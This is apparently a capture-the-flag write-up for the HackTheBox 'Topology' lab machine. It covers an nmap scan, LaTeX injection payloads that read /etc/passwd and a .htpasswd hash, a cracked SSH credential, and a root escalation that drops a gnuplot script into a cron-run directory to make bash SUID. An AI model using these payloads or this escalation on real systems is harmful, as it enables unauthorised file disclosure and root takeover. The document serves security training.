







## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt topology.htb
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## vdaisley
### Website

On port `80`.


Under `Software projects`, there's a link for `LaTex Equation Generator` which is on another subdomain `latex.topology.htb`.



We'll add this new subdomain to `/etc/hosts`.



### LaTex Injection

The website lets us enter LaTex commands. Let's try and use injection to read files on disk.

```latex
$\lstinputlisting{/etc/passwd}$
```



### htpasswd

After some searching around the target knowing the default structure for web servers on Linux we find a hash in `.htpasswd`.

```tex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```


We can crack this using JohnTheRipper.



### SSH

```text
vdaisley:calculus20
```



## Privilege Escalation

If we run `linpeas`, we can see there are some `cron` jobs that run quite frequently. We can use `pspy` to figure out what's running in the background.



### gnuplot

As we can see from `pspy`, `gnuplot` is running as `root` executing any `.plt` file within the `/opt/gnuplot/` directory. If we create our own file in this directory it will get executed via `cron` as `root`.

The following will create a `.plt` file in the `/opt/gnuplot` directory and make `bash` an SUID binary, letting us run it as `root` under our current user.

```shell
echo 'system "chmod u+s /bin/bash"' > gnuplot/test.plt
```

After a few minutes, the file should be executed and we can now execute `bash` with elevated permissions.

